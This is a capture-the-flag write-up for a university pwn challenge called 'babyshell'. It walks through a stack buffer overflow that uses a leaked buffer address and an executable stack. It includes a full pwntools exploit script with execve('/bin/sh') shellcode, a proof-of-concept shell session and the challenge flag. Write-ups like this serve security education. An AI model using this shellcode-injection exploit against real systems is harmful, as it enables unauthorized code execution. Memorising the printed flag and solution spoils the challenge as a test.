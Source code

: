 # Babyshell :shell:

## Description: 

* You found a little baby crying inside a basket! It looks like it lost its shell-toy. Please, buy a new one for the poor baby.

## Objective: 

* Take advantage of *BufferOverflow* , `NX` disabled and leaked `buffer address`to inject shellcode.

## Flag: :black_flag:
* UNIWA{b4by_l0v3s_th3_sh3ll}

## Challenge:

First of all, we start with a `checksec`:  

```sh
gef➤  checksec 
[+] checksec for '/home/w3th4nds/github/UniWA_CTF_2020-2021/pwn/baby_shell/babyshell'
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

As we can see only `PIE` is enabled.

The interface of the program looks like this:

```sh
w3th4nds@void:~/github/UniWA_CTF_2020-2021/pwn/baby_shell$ ./babyshell 
~Inside the toy store~

Current cash: 6.9$

[1] Pay with cash (22.69$).
[2] Enter gift code.
> 2
Insert gift code:
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
This is a gift-code for your next purchase: [0x7ffdba507ce0]
Do you need anything else?
```

We see there are 2 options and a `leak`.  

### Disassembly :pick:

Starting fro `main`:

```c
undefined8 main(void)

{
  int iVar1;
  undefined local_48 [32];
  char local_28 [28];
  int local_c;
  
  setup();
  puts("~Inside the toy store~\n");
  printf((char *)0x401b99999999999a,"Current cash: %.1f$\n\n");
  printf("[1] Pay with cash (22.69$).\n[2] Enter gift code.\n> ");
  __isoc99_scanf(&DAT_00100b3c,&local_c);
  if (local_c == 1) {
    printf("You do not have enough money!");
  }
  else {
    if (local_c == 2) {
      printf("Insert gift code:\n> ");
      read(0,local_28,10);
      iVar1 = strcmp("tw1nkl3tw1nkl3",local_28);
      if (iVar1 == 0) {
        puts("The gift code is not valid!");
                    /* WARNING: Subroutine does not return */
        exit(0x45);
      }
      printf("This is a gift-code for your next purchase: [%p]\nDo you need anything else?\n> ",
             local_48);
      __isoc99_scanf(&DAT_00100bef,local_48);
    }
  }
  return 0;
}
```

As we can see, we have a `leak` of the buffer we write (`local_48`).

We also have an `Overflow` due to `scanf` having no limits here.

So, our goal is:

* Save`leaked` address.
* Fill the buffer with our `shellcode` and `nops` and overwrite the `return` address with our `leaked` address.

We found form `gdb` that the `return` address is after 72 bytes:

```gdb
[+] Found at offset 72 (big-endian search)
```

The final payload looks like this:

```python
payload = sc.ljust(72, b'\x90') + p64(leaked)
```

### Exploit :scroll:

```python
#!/usr/bin/python3
from pwn import *

ip = 'ctf.uniwa.gr' # change this
port = 6969 # change this
fname = './babyshell' # change this

LOCAL = False

if LOCAL:
	r = process(fname)
else:
	r = remote(ip, port)

ru = lambda x : r.recvuntil(x)
inter = lambda : r.interactive()
sla = lambda x,y : r.sendlineafter(x,y)

def pwn():
	sla('>', '2')
	sla('>', 'random')
	sc = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'

	ru('[')
	leaked = int(ru(']')[:-1],16)
	print('Leaked: 0x{:x}'.format(leaked)) 
	payload = sc.ljust(72, b'\x90') + p64(leaked)
	sla('>', payload)
	inter()


if __name__ == '__main__':
	pwn()
```



### PoC: :checkered_flag:

```sh
w3th4nds@void:~/github/UniWA_CTF_2020-2021/pwn/baby_shell$ ./exp.py 
[+] Starting local process './babyshell': pid 9572
Leaked: 0x7ffc2582f8d0
[*] Switching to interactive mode
 $ ls
Makefile  README.md  babyshell    babyshell.c  core  exp.py  flag.txt
$ cat flag.txt
UNIWA{b4by_l0v3s_th3_sh3ll}
```

